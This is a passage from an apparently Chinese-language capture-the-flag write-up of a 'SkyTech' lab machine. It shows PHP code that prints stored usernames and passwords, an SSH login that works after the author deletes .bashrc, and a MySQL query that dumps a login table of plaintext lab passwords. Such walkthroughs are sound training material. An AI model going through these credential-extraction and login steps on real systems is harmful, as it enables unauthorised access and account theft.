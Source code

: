 ```text
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>
```

登录一下数据库：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608789.png" alt="image-20240221152222114" style="zoom:33%;" />

但是报错，我删除`.bashrc`后再次进行ssh连接：

![image-20240221152542384](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608790.png)

可以连接到数据库了，这里为啥不行，等下再尝试修改下，先查看一下数据库：

```shell
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
